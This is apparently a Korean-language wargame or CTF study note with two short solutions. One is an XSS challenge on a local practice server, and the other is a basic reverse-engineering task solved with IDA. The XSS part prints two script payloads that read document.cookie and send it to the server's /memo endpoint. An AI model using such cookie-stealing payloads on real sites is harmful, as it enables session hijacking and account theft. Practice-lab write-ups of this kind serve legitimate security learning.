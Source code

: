 - 서버에 요청을 보낼 수 있는 기능이 있음.
    - http://127.0.0.1:8000/xxs?xxs=[입력]   
- '입력' 에 코드를 넣으면 xss필터링 없이 서버로 요청을 보냄.
- 서버안에서 '/memo?memo=쿠키값' 이렇게 보내야 쿠키값이 memo에 찍힘    
    >답1: \<script>new Image.src="/memo?memo="+document.cookie;\</script>   
    >답2: \<script>document.location.href="/memo?memo="+document.cookie;\</script>

- 스크립트를 넣어서 요청을 보내기만 하면 됨.

## rev-basic-0

    파일을 ida로 분석
- compare 하는 부분이 보인다. 
- 아니면, 맞으면 correct가 뜬다고 했으니, correct를 검색해서 조건을 확인해도 된다. 
> IDA 사용법을 아직 잘 모르겠다. 